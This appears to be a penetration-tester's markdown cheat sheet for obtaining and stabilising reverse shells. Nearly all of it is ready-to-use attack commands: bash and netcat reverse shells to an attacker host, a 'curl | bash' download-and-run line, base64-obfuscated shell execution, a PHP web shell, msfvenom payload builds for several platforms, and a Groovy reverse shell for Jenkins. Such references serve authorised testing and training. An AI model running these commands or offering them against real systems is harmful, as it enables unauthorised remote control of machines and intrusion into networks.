 # Shell

## Reverse shell

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [revshells](https://www.revshells.com/)

```
#!/bin/bash
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```
```
curl http://<lhost>/shell.sh|bash
```
```
echo -n "bash -i >& /dev/tcp/<lhost>/<lport> 0>&1" | base64
echo <base64-shell> | base64 -d | bash
{echo,<base64-shell>}|{base64,-d}|bash
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <lhost> <lport> >/tmp/f
```
```
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
```

Listen for reverse shell with netcat:
```
nc -nvlp <port>
```

### Msfvenom
```
msfvenom -l payloads

msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f war > shell.war
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell.elf
```

### Groovy (for Jenkins)
```java
String host="<lhost>";
int port=9001;
String cmd="whoami";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Interactive shell

### Linux

1. ``python3 -c 'import pty; pty.spawn("/bin/bash")'``
2. ``CTRL+Z``
3. ``stty raw -echo && fg``

### Windows

``rlwrap nc -nvlp <port>``
